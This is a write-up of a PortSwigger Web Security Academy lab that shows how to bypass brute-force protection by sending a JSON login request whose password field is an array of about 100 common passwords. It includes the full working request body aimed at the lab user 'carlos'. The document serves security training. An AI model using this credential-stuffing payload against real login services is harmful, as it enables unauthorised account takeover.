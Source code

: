 # Broken brute-force protection, multiple credentials per request | Dec 22, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/authentication/password-based/lab-broken-brute-force-protection-multiple-credentials-per-request), you'll learn: Broken brute-force protection, multiple credentials per request! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab is vulnerable due to a logic flaw in its brute-force protection. To solve the lab, brute-force Carlos's password, then access his account page.

- Victim's username: `carlos`
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

## Exploitation

**Login page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-13/images/Pasted%20image%2020221222065102.png)

**Let's try to trigger the brute force protection:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-13/images/Pasted%20image%2020221222065155.png)

If we entered incorrect password **4 times**, the application will block our IP address.

**Burp Suite HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-13/images/Pasted%20image%2020221222065806.png)

In here, we can see that the login credentails is in **JSON format**.

However, in JSON, we can send an array to a key via `[]`!

**For example:**
```json
{
    "username":"carlos",
    "password":[
        "123456"
        "password"
        "12345678"
        "..."
    ],
    "":""
}
```

**Armed with above information, we can see an array of passwords!**
```json
{
    "username":"carlos",
    "password":[
        "123456",
        "password",
        "12345678",
        "qwerty",
        "123456789",
        "12345",
        "1234",
        "111111",
        "1234567",
        "dragon",
        "123123",
        "baseball",
        "abc123",
        "football",
        "monkey",
        "letmein",
        "shadow",
        "master",
        "666666",
        "qwertyuiop",
        "123321",
        "mustang",
        "1234567890",
        "michael",
        "654321",
        "superman",
        "1qaz2wsx",
        "7777777",
        "121212",
        "000000",
        "qazwsx",
        "123qwe",
        "killer",
        "trustno1",
        "jordan",
        "jennifer",
        "zxcvbnm",
        "asdfgh",
        "hunter",
        "buster",
        "soccer",
        "harley",
        "batman",
        "andrew",
        "tigger",
        "sunshine",
        "iloveyou",
        "2000",
        "charlie",
        "robert",
        "thomas",
        "hockey",
        "ranger",
        "daniel",
        "starwars",
        "klaster",
        "112233",
        "george",
        "computer",
        "michelle",
        "jessica",
        "pepper",
        "1111",
        "zxcvbn",
        "555555",
        "11111111",
        "131313",
        "freedom",
        "777777",
        "pass",
        "maggie",
        "159753",
        "aaaaaa",
        "ginger",
        "princess",
        "joshua",
        "cheese",
        "amanda",
        "summer",
        "love",
        "ashley",
        "nicole",
        "chelsea",
        "biteme",
        "matthew",
        "access",
        "yankees",
        "987654321",
        "dallas",
        "austin",
        "thunder",
        "taylor",
        "matrix",
        "mobilemail",
        "mom",
        "monitor",
        "monitoring",
        "montana",
        "moon",
        "moscow"
    ],
    "":""
}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-13/images/Pasted%20image%2020221222070502.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-13/images/Pasted%20image%2020221222070510.png)

We're user `carlos`!

# What we've learned:

1. Broken brute-force protection, multiple credentials per request